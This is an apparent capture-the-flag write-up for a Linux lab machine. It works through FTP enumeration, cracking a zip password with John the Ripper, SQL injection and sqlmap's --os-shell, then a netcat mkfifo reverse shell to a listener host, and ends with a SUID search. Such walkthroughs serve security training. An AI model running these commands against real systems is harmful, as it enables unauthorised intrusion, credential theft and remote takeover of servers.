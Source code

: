 #Linux #FTP #SQL #SUID

**NMAP Scan**

```sh
  nmap -sV -sC -p- 10.129.17.227
  ```

* To see the versions of the services running (-sV)
* To perform a script scan using the default set of scripts (-sC)
* To scan all ports from 1 through 65535 (-p-)

Open Ports

21/tcp open  ftp     vsftpd 3.0.3

22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

![image](https://user-images.githubusercontent.com/99097743/169863478-0bfbc6c9-0ec3-49bf-a48e-13fdbe28576a.png)

**FTP**

Nmap scan highlights that **anonymous FTP login is allowed**

We are able to download the **backup.zip**

![image](https://user-images.githubusercontent.com/99097743/169863972-2e3d4672-6476-4db9-a294-0e3977a458df.png)

We have a situation here, what is the password of the zip file?

![image](https://user-images.githubusercontent.com/99097743/169865265-8d628052-84c0-4743-880b-7b51031655c9.png)

No worries, John the Ripper to rescue!

https://github.com/openwall/john

John the Ripper jumbo - advanced offline password cracker, which supports hundreds of hash and cipher types, and runs on many operating systems, CPUs, GPUs, and even some FPGAs

Here are the steps:


1. Generate the hash of the zipfile and save it as hash

```sh
zip2john backup.zip > hash
```

2. Use **John** to crack the password using commonly used words (rock.txt). If the password does not show up on the terminal, you can see the password in jonh.pot

```sh
john -w=/usr/share/wordlists/rockyou.txt hash
```

Thanks John! We can now unzip the **backup.zip**

* index.php  --> there is a username:password pair with MD5 hash: You can use one of the free services for Decrypt & Encrypt MD5
* style.css

Using the credentials we can log in to the Car Catalogue

![image](https://user-images.githubusercontent.com/99097743/169875305-9ca24fb3-ecf4-4df9-bf70-96ca635e8de5.png)


**SQL Injection**

* If you try a single quote (') inside the search box --> ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^
* If you try ' OR '1' = '1  --> No ERROR message: brings all cars as 1=1 always!


Let's use the **sqlmap** for this lab. 

https://github.com/sqlmapproject/sqlmap.git

Automatic SQL injection and database takeover tool

![image](https://user-images.githubusercontent.com/99097743/169881600-07143523-6f87-4718-8a3c-f4e193bf331a.png)

Here are the steps:


1. Capture the GET file of a sample search with BurpSuite as **new.req**

![image](https://user-images.githubusercontent.com/99097743/169882864-38319cd4-af40-4ee0-b1c7-f196263b2886.png)


2. Run the **sqlmap** tool

```sh
sqlmap -r new.req
```
* -r means REQUESTFILE: Load HTTP request from a file

![image](https://user-images.githubusercontent.com/99097743/169883168-7c07a0ba-86fd-4f12-afeb-2c924713107e.png)

3. Run the **--os-shell** command

```sh
sqlmap -r new.req --os-shell
```
* --os-shell means prompt for an interactive operating system shell
*  If asked "Do you want to retrieve the command standard output? [Y/n/a]" --> Click a = ALWAYS

4. Do not forget to active the listener

![image](https://user-images.githubusercontent.com/99097743/169885449-68625d07-68cc-4ef4-9b7c-2d9099f73384.png)

5. Get the reverse shell payload, revshells.com can help us here, we can try **mkfifo**

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.26 87 >/tmp/f
```

![image](https://user-images.githubusercontent.com/99097743/169886969-48f93363-4338-43c0-ab9b-5120fedddf3e.png)

6. We can improve the shell and make it fully interactive using the following commands

```sh
python3 -c 'import pty;pty.spawn("/bin/bash");'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
```
It worked!

![image](https://user-images.githubusercontent.com/99097743/169887719-ad875cea-7937-4477-8af5-66954b722d72.png)

We can now capture the user flag!

![image](https://user-images.githubusercontent.com/99097743/169892144-9a64989d-8b83-482a-8989-72c3c4080914.png)

**Privilege Escalation**

We are trying privilege escalation By using SUID. Let's start with this command:

```sh
find / -perm -4000 -type f 2>/dev/null
```
*/ denotes that we will start from the top (root) of the file system and find every directory
* -perm denotes that we will search for the permissions that follow:
* -type states the type of file we are looking for
* f denotes a regular file, excluding directories and special files
* 2>/dev/null means we will redirect all errors to /dev/null. In other words, we will ignore all errors.
